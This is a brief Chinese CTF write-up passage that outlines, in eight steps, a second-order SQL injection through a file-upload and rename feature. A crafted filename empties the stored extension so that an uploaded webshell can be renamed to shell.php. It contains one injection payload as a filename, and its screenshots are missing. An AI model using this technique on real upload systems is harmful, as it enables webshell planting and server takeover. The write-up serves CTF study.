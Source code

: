 

```markdown
(1)上传一个info',extension='.jpg
(2)insert into `file` ( `filename`, `view`, `extension`) values( 'info',extension='', 0, 'jpg')
(3)rename时获取到后缀名$result["extension"]=jpg
(4)执行update `file` set `filename`='test.jpg',oldname='info',exetension='' where fid=1
(5)上传的文件名改为test.jpg.jpg，数据库中extension更改为空
(6)上传一个test.jpg(真正的shell),
(7)更名为shell.php,当数据库查找文件名为test.jpg时，获得后缀名为空
(8)执行update,获得shell.php
```
具体操作如下

![](/home/cookie/Pictures/blogs/CTF杂谈随笔/3.png)



![](/home/cookie/Pictures/blogs/CTF杂谈随笔/4.png)





![](/home/cookie/Pictures/blogs/CTF杂谈随笔/5.png)



![](/home/cookie/Pictures/blogs/CTF杂谈随笔/6.png)



![](/home/cookie/Pictures/blogs/CTF杂谈随笔/7.png)